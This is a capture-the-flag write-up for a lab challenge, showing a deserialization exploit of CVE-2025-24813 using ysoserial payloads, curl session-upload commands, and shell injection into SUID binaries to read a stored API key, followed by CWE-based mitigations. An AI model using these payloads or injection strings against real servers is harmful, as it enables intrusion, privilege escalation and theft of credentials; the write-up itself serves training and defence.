

# Snowcat RCE & Priv Esc
Difficulty: <span style="color:red">❄ ❄ ❄</span> ❄ ❄  
Tom, in the hotel, found a wild Snowcat bug. Help him chase down the RCE! Recover and submit the API key not being used by snowcat.

## Hints
### Snowcat
If you're feeling adventurous, maybe you can become root to figure out more about the attacker's plans.
### Snowcat
Maybe we can inject commands into the calls to the temperature, humidity, and pressure monitoring services.
### Snowcat
Snowcat is closely related to Tomcat. Maybe the recent Tomcat Remote Code Execution vulnerability (CVE-2025-24813) will work here.

## motd
```bash
We've lost control of the Neighborhood Weather Monitoring Station.
We think another system is connecting.

The weather monitoring station uses the Snowcat hosting platform.
It's cousin Tomcat, recently had a Remote Code Execution vulnerability.
Can you help me try and exploit it to regain access to the server?

Once you've gained access, find a way to become the 'weather' user, and find the authorization key used by the other system.
Enter the authorization key used by the other system into the badge.
```

## Solution
### The actual one
I started by exploring the terminal session files to understand the environment and I checked `notes.md`, which referenced a RCE vulnerability in Snowcat similar to Tomcat, suggesting the use of `ysoserial` to generate payloads:
````bash
user@weather:~$ ls -la
total 58164
drwx------ 1 user user     4096 Sep 15 08:15 .
drwxrwxr-x 1 root root     4096 Sep 13 08:55 ..
-rw-r--r-- 1 user user      220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 user user     3835 Sep 13 06:28 .bashrc
-rw-r--r-- 1 user user      807 Jan  6  2022 .profile
-rwx------ 1 user user     1992 Sep 13 08:24 CVE-2025-24813.py
-rw-rw-r-- 1 user user     1424 Sep 13 08:24 notes.md
drwxrwxr-x 1 user user     4096 Sep 15 08:15 weather-jsps
-rw-rw-r-- 1 user user 59525376 Sep 13 08:24 ysoserial.jar

user@weather:~$ cat notes.md 
# Remote Code Execution exploiting RCE-2025-24813

Snowcat is a webserver adapted to life in the arctic.
Can you help me check to see if Snowcat is vulnerable to RCE-2025-24813 like its cousin Tomcat?

## Display ysoserial help, lists payloads, and their dependencies:
```
  java -jar ysoserial.jar
```

## Identify what libraries are used by the Neighborhood Weather Monitoring system

## Use ysoserial to generate a payload

Store payload in file named payload.bin

## Attempt to exploit RCE-2025-24813 to execute the payload

```
export HOST=TODO_INSERT_HOST
export PORT=TODO_INSERT_PORT
export SESSION_ID=TODO_INSERT_SESSION_ID

curl -X PUT \
  -H "Host: ${HOST}:${PORT}" \
  -H "Content-Length: $(wc -c < payload.bin)" \
  -H "Content-Range: bytes 0-$(($(wc -c < payload.bin)-1))/$(wc -c < payload.bin)" \
  --data-binary @payload.bin \
  "http://${HOST}:${PORT}/${SESSION_ID}/session"

curl -X GET \
  -H "Host: ${HOST}:${PORT}" \
  -H "Cookie: JSESSIONID=.${SESSION_ID}" \
  "http://${HOST}:${PORT}/"
```

# Privilege Escalation

The Snowcat server still uses some C binaries from an older system iteration.
Replacing these has been logged as technical debt.
<TOOD_INSERT_ELF_NAME> said he thought these components might create a privilege escalation vulnerability.
Can you prove these components are vulnerable by retrieving the key that is not used by the Snowcat hosted Neighborhood Weather Monitoring Station?
````

However, exploring the `weather-jsps` directory, I found a more direct path in the `dashboard.jsp` file. This file contained the logic for the weather monitoring dashboard:
```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.*" %>
<%@ page import="org.apache.commons.collections.map.*" %>
<html>
<head>
    <title>Neighborhood Weather Monitoring Station</title>
    <link rel="stylesheet" type="text/css" href="styles.css">
</head>
<body>
<div class="dashboard-container">
    <h1>Neighborhood Weather Monitoring Station</h1>
    <p>Providing real-time Neighborhood weather monitoring since 2022.</p>
    <%
        if (session == null || session.getAttribute("username") == null) {
            // No valid session, redirect to login page
            response.sendRedirect("/");
            return;
        }
        String username = (String) session.getAttribute("username");
        String firstname = (String) session.getAttribute("firstname");
        String lastname = (String) session.getAttribute("lastname");

        out.println("<h2>Welcome, " + firstname + " " + lastname + "</h2>");
        try {
            String key = "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6";
            Process tempProc = Runtime.getRuntime().exec("/usr/local/weather/temperature " + key);
            Process humProc = Runtime.getRuntime().exec("/usr/local/weather/humidity " + key);
            Process presProc = Runtime.getRuntime().exec("/usr/local/weather/pressure " + key);

            BufferedReader tempReader = new BufferedReader(new InputStreamReader(tempProc.getInputStream()));
            BufferedReader humReader = new BufferedReader(new InputStreamReader(humProc.getInputStream()));
            BufferedReader presReader = new BufferedReader(new InputStreamReader(presProc.getInputStream()));

            String tempLine = tempReader.readLine();
            String humLine = humReader.readLine();
            String presLine = presReader.readLine();
        
            if (tempLine == null || humLine == null || presLine == null) {
                out.println("<p>Error: Unable to retrieve weather data. Please try again later.</p>");
                return;
            }
        
            float temperature = Float.parseFloat(tempLine);
            float humidity = Float.parseFloat(humLine);
            int pressure = Integer.parseInt(presLine); // Parse pressure as integer

            // Define min and max values using Apache Commons Collections MultiValueMap
            MultiValueMap ranges = new MultiValueMap();

            ranges.put("temperature", 70.0f);
            ranges.put("temperature", -50.0f);

            ranges.put("humidity", 100.0f);
            ranges.put("humidity", 0.0f);

            ranges.put("pressure", 950);
            ranges.put("pressure", 1050);

            // Retrieve min and max values for normalization
            float tempMin = (float) ranges.getCollection("temperature").toArray()[0];
            float tempMax = (float) ranges.getCollection("temperature").toArray()[1];

            float humMin = (float) ranges.getCollection("humidity").toArray()[0];
            float humMax = (float) ranges.getCollection("humidity").toArray()[1];

            int presMin = (int) ranges.getCollection("pressure").toArray()[0];
            int presMax = (int) ranges.getCollection("pressure").toArray()[1];

            // Normalize values using the ranges
            float normalizedTemperature = (temperature - tempMin) / (float) (tempMax - tempMin);
            float normalizedHumidity = (humidity - humMin) / (humMax - humMin);
            float normalizedPressure = (pressure - presMin) / (float) (presMax - presMin);

            // Adjust weights based on normalized values for Kansas December weather
            float tempScore = temperature < 2.0f ? 1.0f : (temperature < 6.0f ? 0.5f : 0.0f);
            float humScore = humidity > 70.0f ? 1.0f : (humidity > 50.0f ? 0.5f : 0.0f);
            float presScore = pressure < 1015 ? 1.0f : (pressure < 1025 ? 0.5f : 0.0f);
            float likelihood = tempScore * 50 + humScore * 30 + presScore * 20;
            String likelihoodLevel = likelihood > 75 ? "High" : (likelihood > 50 ? "Medium" : "Low");

            out.println("<p>Likelihood of snow: <strong>" + likelihoodLevel + "</strong></p>");
            out.println("<p>Temperature: " + temperature + " °C</p>"); // Explicitly cast to integer
            out.println("<p>Humidity: " + humidity + " %</p>");
            out.println("<p>Pressure: " + (int) pressure + " hPa</p>"); // Explicitly cast to integer
        } catch (Exception e) {
            e.printStackTrace();
            out.println("<p>Error: Unable to retrieve weather data. Please try again later.</p>");
        }
    %>
</div>
<script src="snowflakes.js"></script>
</body>
</html>
```
I noticed that the code uses `Runtime.getRuntime().exec()` to execute external commands:
```java
String key = "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6";
Process tempProc = Runtime.getRuntime().exec("/usr/local/weather/temperature " + key);
Process humProc = Runtime.getRuntime().exec("/usr/local/weather/humidity " + key);
Process presProc = Runtime.getRuntime().exec("/usr/local/weather/pressure " + key);
```
I then navigated to the binaries directory to inspect these executables:
```bash
user@weather:/usr/local/weather$ ls -la
total 92
drwxr-xr-x 1 weather snowcat  4096 Sep 15 08:15 .
drwxrwxr-x 1 root    root     4096 Sep 15 08:15 ..
-rw-r----- 1 weather snowcat    35 Sep 13 08:24 config
drwx------ 1 weather snowcat  4096 Sep 13 08:30 data
-rwsr-sr-x 1 root    weather 16984 Sep 15 08:15 humidity
drwx------ 1 weather weather  4096 Sep 13 08:30 keys
-rwxr-x--- 1 root    weather   357 Sep 13 08:24 logUsage
drwx------ 1 weather weather  4096 Sep 13 08:30 logs
-rwsr-sr-x 1 root    weather 16984 Sep 15 08:15 pressure
-rwsr-sr-x 1 root    weather 16992 Sep 15 08:15 temperature
```
I observed that the `temperature`, `humidity`, and `pressure` binaries had the SUID (Set User ID) bit set (indicated by the `s` in the permissions). This meant they executed with the permissions of the file owner (root) or group (weather), rather than the user running them.

As the hint suggested, I attempted to inject commands into these executables. The vulnerability lay in how the arguments were parsed. I confirmed this by injecting a command to list the contents of the `keys` directory:
```bash
user@weather:/usr/local/weather$ ./temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'; ls -la keys #"
5.56
total 16
drwx------ 1 weather weather 4096 Sep 13 08:30 .
drwxr-xr-x 1 weather snowcat 4096 Sep 15 08:15 ..
-rw-rw-r-- 1 weather weather   74 Sep 13 08:24 authorized_keys
```
The injection `';` closed the previous command, allowing me to run `ls -la keys`, and the `#` commented out any subsequent arguments.

Finally, I read the `authorized_keys` file to retrieve the flag:
```bash
user@weather:/usr/local/weather$ ./temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'; cat keys/authorized_keys #"
5.51
4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6
8ade723d-9968-45c9-9c33-7606c49c2201
```
The key `8ade723d-9968-45c9-9c33-7606c49c2201` was the answer to this challenge.

### The CVE
Although it wasn't needed to get the flag, I also investigated the mentioned CVE. The challenge referenced a deserialization vulnerability in Snowcat (similar to Tomcat).
I demonstrated the vulnerability using the provided Python script and `ysoserial`:
```bash
user@weather:~$ python3 CVE-2025-24813.py --host 127.0.0.1 --port 80 --base64-payload $(java -jar ysoserial.jar CommonsCollections5 'touch /tmp/success' | base64 -w 0) --session-id 345678hgbdhf
[*] Sending PUT request with serialized session data...
[PUT] Status: 409 
<!doctype html><html lang="en"><head><title>HTTP Status 409 – Conflict</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 409 – Conflict</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Description</b> The request could not be completed due to a conflict with the current state of the target resource.</p><hr class="line" /><h3>Apache Tomcat/9.0.90</h3></body></html>
[*] Sending GET request with session cookie...
[GET] Status: 500 
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> class javax.management.BadAttributeValueExpException cannot be cast to class java.lang.Long (javax.management.BadAttributeValueExpException is in module java.management of loader &#39;bootstrap&#39;; java.lang.Long is in module java.base of loader &#39;bootstrap&#39;)</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>java.lang.ClassCastException: class javax.management.BadAttributeValueExpException cannot be cast to class java.lang.Long (javax.management.BadAttributeValueExpException is in module java.management of loader &#39;bootstrap&#39;; java.lang.Long is in module java.base of loader &#39;bootstrap&#39;)
        org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1199)
        org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:846)
        org.apache.catalina.session.FileStore.load(FileStore.java:203)
        org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:723)
        org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:672)
        org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:467)
        org.apache.catalina.connector.Request.doGetSession(Request.java:2722)
        org.apache.catalina.connector.Request.getSessionInternal(Request.java:2467)
        org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:451)
        org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:93)
        org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:660)
        org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:346)
        org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:388)
        org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
        org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:936)
        org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1791)
        org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
        org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1190)
        org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
        org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:63)
        java.base&#47;java.lang.Thread.run(Thread.java:829)
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.90</h3></body></html>

user@weather:~$ ls /tmp
hsperfdata_root  hsperfdata_snowcat  hsperfdata_user  success
```
Despite the server returning a `409 Conflict` and `500 Internal Server Error`, checking `/tmp` confirmed the `success` file was created.

To do something more interesting, I ended up with a pretty complex base64 encoded payload to run `whoami` and pipe the output to a file:
```bash
user@weather:~$ echo -n 'whoami > /tmp/cc5_whoami && chmod 777 /tmp/cc5_whoami' | base64
d2hvYW1pID4gL3RtcC9jYzVfd2hvYW1pICYmIGNobW9kIDc3NyAvdG1wL2NjNV93aG9hbWk=

user@weather:~$ python3 CVE-2025-24813.py --host 127.0.0.1 --port 80 --session-id 345678hgbdhf --base64-payload $(java -jar ysoserial.jar CommonsCollections5 'bash -c {echo,d2hvYW1pID4gL3RtcC9jYzVfd2hvYW1pICYmIGNobW9kIDc3NyAvdG1wL2NjNV93aG9hbWk=}|{base64,-d}|{bash,-i}' | base64 -w 0)
[*] Sending PUT request with serialized session data...
[PUT] Status: 409 
<!doctype html><html lang="en"><head><title>HTTP Status 409 – Conflict</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 409 – Conflict</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Description</b> The request could not be completed due to a conflict with the current state of the target resource.</p><hr class="line" /><h3>Apache Tomcat/9.0.90</h3></body></html>
[*] Sending GET request with session cookie...
[GET] Status: 500 
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> class javax.management.BadAttributeValueExpException cannot be cast to class java.lang.Long (javax.management.BadAttributeValueExpException is in module java.management of loader &#39;bootstrap&#39;; java.lang.Long is in module java.base of loader &#39;bootstrap&#39;)</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>java.lang.ClassCastException: class javax.management.BadAttributeValueExpException cannot be cast to class java.lang.Long (javax.management.BadAttributeValueExpException is in module java.management of loader &#39;bootstrap&#39;; java.lang.Long is in module java.base of loader &#39;bootstrap&#39;)
        org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1199)
        org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:846)
        org.apache.catalina.session.FileStore.load(FileStore.java:203)
        org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:723)
        org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:672)
        org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:467)
        org.apache.catalina.connector.Request.doGetSession(Request.java:2722)
        org.apache.catalina.connector.Request.getSessionInternal(Request.java:2467)
        org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:451)
        org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:93)
        org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:660)
        org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:346)
        org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:388)
        org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
        org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:936)
        org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1791)
        org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
        org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1190)
        org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
        org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:63)
        java.base&#47;java.lang.Thread.run(Thread.java:829)
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.90</h3></body></html>

user@weather:~$ cat /tmp/cc5_whoami 
snowcat
```
This confirmed I had code execution as the `snowcat` user.

## Dissecting the attack


<table>
     <thead>
         <tr>
             <th style="text-align:center">Phase</th>
             <th style="text-align:center">Vulnerability (CWE)</th>
             <th style="text-align:center">Mitigation</th>
         </tr>
     </thead>
     <tbody>
         <tr>
             <td rowspan="1"><strong>1. RCE</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-502</strong><br/>Deserialization of Untrusted Data<br/><em>(Java Object Injection)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Patch Management</strong><br/><em>(Update Vendor Software / Remove Gadgets)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>2. PrivEsc</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-78</strong><br/>Improper Neutralization of Special Elements used in an OS Command<br/><em>(Command Injection in SUID)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Input Validation</strong><br/><em>(Use execve / Avoid Shell Interpreters)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>3. Access</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-200</strong><br/>Exposure of Sensitive Information to an Unauthorized Actor<br/><em>(Cleartext API Keys)</em></td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Access Control</strong><br/><em>(File Permissions / Encryption)</em> </td>
         </tr>
     </tbody>
 </table>

### Fixing the Deserialization RCE (CWE-502)
**Vulnerability:** The Snowcat web server contains a known RCE vulnerability (CVE-2025-24813) that allows arbitrary code execution via unsafe deserialization of session data.  
**Fix:** Apply the vendor patch immediately. If a patch is unavailable, perform Attack Surface Reduction by removing the "gadget" libraries (e.g., `commons-collections`) from the application classpath, rendering the exploit chain inert.  
**Patching Strategy:**
```bash
# STEP 1: Update Snowcat to the latest stable version
apt-get update && apt-get upgrade snowcat

# STEP 2 (Hardening): Remove unnecessary libraries utilized in the exploit chain
# If Commons Collections is not required for legitimate functionality:
rm /opt/snowcat/lib/commons-collections*.jar
```
**Impact:** Updating the software addresses the root cause in the platform code. Removing the gadget library breaks the `ysoserial` payload execution flow even if the deserialization endpoint remains exposed.

### Fixing the SUID Command Injection (CWE-78)
**Vulnerability:** The custom C binaries (`temperature`, etc...) use `system()` to execute commands with user input, and are configured with the SUID bit allowed root-level execution.  
**Fix:** The primary fix is to apply Least Privilege by removing the SUID bit so the binary cannot run as root. The secondary fix is to rewrite the C code to use `execve()` instead of `system()`.  
**System Hardening (Immediate):**
```bash
# FIX: Remove SUID bit from the binaries
chmod u-s /usr/local/weather/temperature
chmod u-s /usr/local/weather/humidity
chmod u-s /usr/local/weather/pressure
```
**Secure Code (Long-term):**
```c
// FIX: Use execve to prevent shell injection
char *args[] = { "/bin/echo", argv[1], NULL };
execve("/bin/echo", args, NULL);
```
**Impact:** Removing the SUID bit effectively neutralizes the privilege escalation vector, turning a critical root compromise into a minor functional bug.

### Fixing the Data Exposure (CWE-200)
**Vulnerability:** The `authorized_keys` file containing the secret API key is stored in cleartext on the filesystem (`/usr/local/weather/keys`). Once the attacker escalates privileges (or if permissions are weak), they can simply read it.  
**Fix:** Implement Defense in Depth. Ensure sensitive keys are encrypted at rest or protected by strict Mandatory Access Control (MAC) policies (like AppArmor or SELinux) that prevent even the temperature binary from reading them unless specifically authorized.  
**Secure Configuration (File Permissions):**
```bash
# FIX: Ensure keys are readable ONLY by root, not the 'weather' group
chown root:root /usr/local/weather/keys/authorized_keys
chmod 600 /usr/local/weather/keys/authorized_keys
```
**Impact:** Prevents the weather group (which the SUID binary runs as) from inadvertently exposing the keys if the binary is compromised, forcing the attacker to gain full root access first.

## Kudos
### \_I_am_Gandalf
Thanks for suggesting me to try "the priv esc way, without the CVE" ...this obviously happened after hours of trying to exploit the CVE to obtain something useful 😁
